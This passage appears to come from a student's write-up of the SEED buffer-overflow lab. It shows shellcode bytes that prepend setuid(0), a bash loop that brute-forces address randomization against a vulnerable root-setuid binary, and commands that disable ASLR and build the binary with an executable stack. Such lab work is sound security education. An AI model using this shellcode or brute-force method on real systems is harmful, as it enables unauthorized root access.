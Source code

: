 After we add `setuid(0)` at the beginning of shellcode:

```c
"\x31\xc0" /* Line 1: xorl  %eax,%eax   */
"\x31\xdb" /* Line 2: xorl  %ebx,%ebx   */
"\xb0\xd5" /* Line 3: movb  $0xd5,%al   */
"\xcd\x80" /* Line 4: int   $0x80       */
```

![Screen Shot 2018-11-25 at 7.05.25 PM.png]({{ site.url }}/images/seed/E3D6EDFCC23B3DC72E2371B49DCFF590.png)

It works.

### 002 Task 4 Defeating Address Randomization

> On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base address can have 2 ^ 19 = 524, 288 possibilities. This number is not that high and can be exhausted easily with the brute-force approach.

Firstly reset the environment:

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

Then write a script to brute:

```bash
#!/bin/bash
# brute_force.sh

SECONDS=0
value=0
while [ 1 ]; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack
done
```

![Screen Shot 2018-11-25 at 7.40.21 PM.png]({{ site.url }}/images/seed/FDDA71DDD711A4C353D41AA241F75319.png)

### 003 Task 5 Turn on the StackGuard Protection

This is just a try, not a bypass-test.

```bash
sudo sysctl -w kernel.randomize_va_space=0
gcc -o stack -z execstack stack.c
sudo chown root stack
sudo chmod 4755 stack
```
